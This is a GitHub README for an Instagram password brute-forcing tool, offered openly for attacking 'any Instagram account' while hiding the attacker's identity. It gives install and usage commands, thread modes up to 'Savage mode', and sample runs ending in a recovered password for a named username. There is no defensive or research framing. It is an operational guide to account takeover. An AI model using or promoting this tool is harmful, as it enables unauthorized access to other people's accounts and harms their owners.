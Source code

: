 # Instagram Bruter old Version by Bitwise01

[![Version](https://img.shields.io/badge/Version-v2.1.1-blue)]()
[![Python](https://img.shields.io/badge/Python-v3.6%2B-blue)]()
[![Discord](https://img.shields.io/badge/Discord-server-blue)](https://discord.gg/C6AFrWQ)
[![Donate](https://img.shields.io/badge/PayPal-donate-orange)](https://www.paypal.me/Msheikh03)

This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity, it only attacks when your identity is hidden.

### NOTICE

I'm no longer maintaining this project.

### Support me

> **Bitcoin wallet:** 3Kr5C9t9HWwPfqzSNXeBNyRvJWw9sSLeKy<br> >**PayPal:** https://www.paypal.me/Msheikh03

### Requirements

-   Python _v3.x.x_
-   ~~Kali Linux 2.0~~
-   ~~TOR~~

### Install Dependencies

```
pip3 install -r requirements.txt
```

### Help

```
C:\Users\Mohamed\Desktop\Instagram>python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

### Usage

```
python3 instagram.py <username> <wordlist> -m <mode>
```

### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
C:\Users\Mohamed\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
C:\Users\Mohamed\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 2
```

### Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
C:\Users\Mohamed\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 1
```

### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
C:\Users\Mohamed\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run

```
[-] Wordlist: pass.lst
[-] Username: towle.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: pass.lst
[-] Username: towle
[-] Password: towle1212
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: towle.1
[+] Password: towle1212
```

